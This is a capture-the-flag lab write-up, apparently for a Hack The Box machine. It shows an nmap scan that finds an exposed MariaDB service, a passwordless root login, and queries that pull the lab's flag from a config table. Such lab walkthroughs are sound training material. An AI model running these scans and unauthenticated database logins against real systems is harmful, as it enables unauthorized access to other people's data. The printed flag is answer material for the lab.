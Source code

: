 target IP :: 10.129.183.175
let enumarate with nmap 
		sudo nmap -sCV -T5 10.129.183.175 -oN sql.txt
		Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-23 15:00 EDT
		Stats: 0:02:42 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
		Service scan Timing: About 100.00% done; ETC: 15:03 (0:00:00 remaining)
		Stats: 0:02:47 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
		NSE Timing: About 97.93% done; ETC: 15:03 (0:00:00 remaining)
		Stats: 0:02:54 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
		NSE Timing: About 97.93% done; ETC: 15:03 (0:00:00 remaining)
		Nmap scan report for 10.129.183.175
		Host is up (0.30s latency).
		Not shown: 999 closed tcp ports (reset)
		PORT     STATE SERVICE VERSION
		3306/tcp open  mysql?
		| mysql-info: 
		|   Protocol: 10
		|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
		|   Thread ID: 64
		|   Capabilities flags: 63486
		|   Some Capabilities: ODBCClient, SupportsCompression, Speaks41ProtocolOld, SupportsLoadDataLocal, FoundRows, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolNew, Support41Auth, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
		|   Status: Autocommit
		|   Salt: 4Pv"Do$`9=efP=}$4x"=
		|_  Auth Plugin Name: mysql_native_password
		|_ssl-cert: ERROR: Script execution failed (use -d to debug)
		|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
		|_sslv2: ERROR: Script execution failed (use -d to debug)
		|_tls-alpn: ERROR: Script execution failed (use -d to debug)
		|_ssl-date: ERROR: Script execution failed (use -d to debug)

		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		Nmap done: 1 IP address (1 host up) scanned in 198.85 seconds

here we can see there is only oen port is open, which is SQL

let run SQL command to get flag

		mysql -h 10.129.183.175 -u root           

			we can login without password 

		let find what we have in the database
				MariaDB [(none)]> show databases;
				+--------------------+
				| Database           |
				+--------------------+
				| htb                |
				| information_schema |
				| mysql              |
				| performance_schema |
				+--------------------+

 		list of databse
 		use HTB

 		MariaDB [htb]> show tables;
			+---------------+
			| Tables_in_htb |
			+---------------+
			| config        |
			| users         |
			+---------------+

		MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+



flag :: 7b4bec00d1a39e3dd4e021ec3d915da8
